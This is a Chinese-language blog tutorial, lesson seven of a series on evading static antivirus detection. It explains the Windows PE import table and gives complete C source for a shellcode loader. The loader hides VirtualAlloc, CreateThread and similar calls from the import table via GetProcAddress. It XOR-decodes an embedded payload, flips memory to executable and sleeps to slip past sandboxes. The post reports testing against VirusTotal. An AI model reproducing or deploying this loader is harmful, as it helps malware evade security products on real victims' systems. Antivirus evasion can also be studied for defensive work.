 ```yaml
---
date: "2020-10-23T00:00:00Z"
description: 本节课，我们需要引入导入表的概念，并且通过代码的小技巧来隐藏导入表，减少文件特征
title: 静态恶意代码逃逸（第七课）
url: /archivers/2020-10-23/1
---
```



代码将会上传至Github，方便读者下载研究 : https://github.com/Rvn0xsy/BadCode

## 0x01 导入地址表（IAT）

> Import Address Table 由于导入函数就是被程序调用但其执行代码又不在程序中的函数，这些函数的代码位于一个或者多个DLL 中，当PE 文件被装入内存的时候，Windows 装载器才将DLL 装入，并将调用导入函数的指令和函数实际所处的地址联系起来(动态连接)，这操作就需要导入表完成.其中导入地址表就指示函数实际地址。 - 来源百度百科


如下图所示：

![2020-10-23-10-46-14](../../../static/images/a20742d6-4f5f-11ec-857b-00d861bf4abb.png)

在PE结构中，存在一个导入表，导入表中声明了这个PE文件会载入哪些模块，同时每个模块的结构中又会指向模块中的一些函数名称。这样的组织关系是为了告诉操作系统这些函数的地址在哪里，方便修正调用地址。

站在反病毒的角度提出假想：既然所有的PE文件都有导入表，并且声明了一些模块，并且还能通过模块找到导入函数的名称，那么是否能够作为一个文件的风险值的评估方向？

方法论：

如果一个文件的文件大小在300KB以内，并且导入函数又有`Virtual Alloc`、`CreateThread`，且`VirtualAlloc`的最后一个参数是`0x40`，那么此文件是高危文件。

`0x40`被定义在`winnt.h`中：

```c
#define PAGE_NOACCESS           0x01    
#define PAGE_READONLY           0x02    
#define PAGE_READWRITE          0x04    
#define PAGE_WRITECOPY          0x08    
#define PAGE_EXECUTE            0x10    
#define PAGE_EXECUTE_READ       0x20    
#define PAGE_EXECUTE_READWRITE  0x40    
#define PAGE_EXECUTE_WRITECOPY  0x80  
```

看一下[第一课代码](https://github.com/Rvn0xsy/BadCode/blob/master/BadCode/Source.cpp)编译出来的PE导出表：

![2020-10-23-11-13-58](../../../static/images/a260fd58-4f5f-11ec-aadf-00d861bf4abb.png)


根据这个猜想，我们开始尝试在PE文件中抹去导入函数名称。

## 0x02 GetProcAddress获取函数地址

`GetProcAddress`这个API在Kernel32.dll中被导出，主要功能是从一个加载的模块中获取函数的地址。

函数声明如下：

```c++
FARPROC GetProcAddress(
  HMODULE hModule, // 模块句柄
  LPCSTR  lpProcName // 函数名称
);
```

`FARPROC`被定义在了`minwindef.h`中，声明如下：

```c
#define WINAPI      __stdcall

typedef int (FAR WINAPI *FARPROC)();
```

跟进它的声明能够发现是一个函数指针，也就是说`GetProcAddress`返回的是我们要找的函数地址。

## 0x03 自己动手获取函数地址

我们拿[第一课的代码](https://github.com/Rvn0xsy/BadCode/tree/master/BadCode)来尝试修改。

分析[第一课的代码](https://github.com/Rvn0xsy/BadCode/blob/master/BadCode/Source.cpp)，主要流程：

```
VirtualAlloc -> VirtualProtect -> CreateThread -> WaitForSingleObject
```

这几个函数是比较明显的，并且都在`kernel32.dll`中导出，我们尝试自己定义他们的函数指针，然后利用`GetProcAddress`获取函数地址，调用自己的函数名称。

新建一个`C/C++`项目，定义如下：

```c++
typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD (WINAPI * ImportWaitForSingleObject)(
  HANDLE hHandle,
  DWORD  dwMilliseconds
);
```

然后在`main`函数中，定义四个函数指针来存放这些函数的地址。

```c++
	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");
```

完整代码如下：

```c
#include <Windows.h>
#include <intrin.h>
#include <WinBase.h>
#include <stdio.h>

typedef LPVOID(WINAPI* ImportVirtualAlloc)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flAllocationType,
	DWORD  flProtect
	);

typedef HANDLE(WINAPI* ImportCreateThread)(
	LPSECURITY_ATTRIBUTES   lpThreadAttributes,
	SIZE_T                  dwStackSize,
	LPTHREAD_START_ROUTINE  lpStartAddress,
	__drv_aliasesMem LPVOID lpParameter,
	DWORD                   dwCreationFlags,
	LPDWORD                 lpThreadId);

typedef BOOL(WINAPI* ImportVirtualProtect)(
	LPVOID lpAddress,
	SIZE_T dwSize,
	DWORD  flNewProtect,
	PDWORD lpflOldProtect
	);

typedef DWORD(WINAPI* ImportWaitForSingleObject)(
	HANDLE hHandle,
	DWORD  dwMilliseconds
	);



// 入口函数
int wmain(int argc, TCHAR* argv[]) {

	ImportVirtualAlloc MyVirtualAlloc = (ImportVirtualAlloc)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualAlloc");
	ImportCreateThread MyCreateThread = (ImportCreateThread)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "CreateThread");
	ImportVirtualProtect MyVirtualProtect = (ImportVirtualProtect)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "VirtualProtect");
	ImportWaitForSingleObject MyWaitForSingleObject = (ImportWaitForSingleObject)GetProcAddress(GetModuleHandle(TEXT("kernel32.dll")), "WaitForSingleObject");


	int shellcode_size = 0; // shellcode长度
	DWORD dwThreadId; // 线程ID
	HANDLE hThread; // 线程句柄
	DWORD dwOldProtect; // 内存页属性
/* length: 800 bytes */

	char buf[] = "\xf6\xe2\x83\x0a\x0a\x0a\x6a...";


	// 获取shellcode大小
	shellcode_size = sizeof(buf);

	/* 增加异或代码 */
	for (int i = 0; i < shellcode_size; i++) {
		//Sleep(50);
		_InterlockedXor8(buf + i, 10);
	}
	
	/*
	VirtualAlloc(
		NULL, // 基址
		800,  // 大小
		MEM_COMMIT, // 内存页状态
		PAGE_EXECUTE_READWRITE // 可读可写可执行
		);
	*/

	char* shellcode = (char*)MyVirtualAlloc(
		NULL,
		shellcode_size,
		MEM_COMMIT,
		PAGE_READWRITE // 只申请可读可写
	);

	// 将shellcode复制到可读可写的内存页中
	CopyMemory(shellcode, buf, shellcode_size);

	// 这里开始更改它的属性为可执行
	MyVirtualProtect(shellcode, shellcode_size, PAGE_EXECUTE, &dwOldProtect);

	// 等待几秒，兴许可以跳过某些沙盒呢？
	Sleep(2000);

	hThread = MyCreateThread(
		NULL, // 安全描述符
		NULL, // 栈的大小
		(LPTHREAD_START_ROUTINE)shellcode, // 函数
		NULL, // 参数
		NULL, // 线程标志
		&dwThreadId // 线程ID
	);

	MyWaitForSingleObject(hThread, INFINITE); // 一直等待线程执行结束
	return 0;
}
```


编译后能够正常执行，并且我们查看一下导入表，我们自己定义的函数已经不在导入表中了：

![2020-10-23-11-26-45](../../../static/images/a2a0a3fe-4f5f-11ec-b0cc-00d861bf4abb.png)


[Virus Total](https://www.virustotal.com/gui/file/6e46cbe74a6d82747d2eb057d49b449477ab9c5e7bc6a7be295cbe7c09d5a7e4/detection)一下看看：

![2020-10-23-11-30-16](../../../static/images/a2d95ad2-4f5f-11ec-82d9-00d861bf4abb.png)

目前这个程序仅仅只是在一个函数中进行调用，并且还有字符串硬编码的问题，下一课着重分享如何解决字符串硬编码的问题。